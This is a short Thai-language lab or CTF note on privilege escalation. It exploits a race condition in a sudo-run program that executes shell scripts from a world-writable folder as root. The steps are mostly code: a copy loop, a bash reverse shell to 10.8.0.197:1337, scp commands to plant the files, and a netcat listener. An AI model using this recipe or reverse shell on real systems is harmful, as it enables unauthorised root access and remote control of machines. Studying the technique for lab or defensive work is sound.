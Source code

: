#privesc 
# Check
ใช้ได้เมื่อมีคำสั่งบางอย่างที่ต้อง delay และเราสามารถแทรกไฟล์หรือทำอะไรบางอย่างกับ delay นั้นได้
ตัวอย่าง sudo check(โปรแกรมที่จะ race condition)
1. มัน สร้างโฟลเดอร์ที่ชื่อ service ขึ้นมา
2. ตัวโปรแกรมกำหนดว่า โฟลเดอร์ service นี้ จะ สามารถ เขียนหรือลบ โดยใครก็ได้
3. ตัวโปรแกรมนี้จะรันทุกคำสั่ง สคริปต์หรือทุกไฟล์ใน โฟลเดอร์ที่ชื่อ service ที่เป็นนามสกุล .sh (ด้วยสิทธ์ root) และก็จะลบ โฟลเดอร์ service หลังจาก 10 วินาที
# Step
1. สร้าง exploit.py
```python
import os,sys
while True:
	os.system('cp exploit.sh /home/bill/service/exploit.sh')
```
2. สร้าง exploit.sh (reverse shell)
ip หาจาก ifconfig tun0
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.8.0.197/1337 0>&1
```
3. ใส่ทั้ง 2 ไฟล์ลงบนเครื่องเป้าหมาย
```bash
scp exploit.py bill@172.18.0.9:/home/bill/
scp exploit.sh bill@172.18.0.9:/home/bill/service/
```
4. เปิดพอร์ตเพื่อดัก shell
```bash
nc nvlp 1337
```
5. run check และ run exploit.py บนเครื่องเป้าหมาย
```bash
sudo check
python3 exploit.py
```
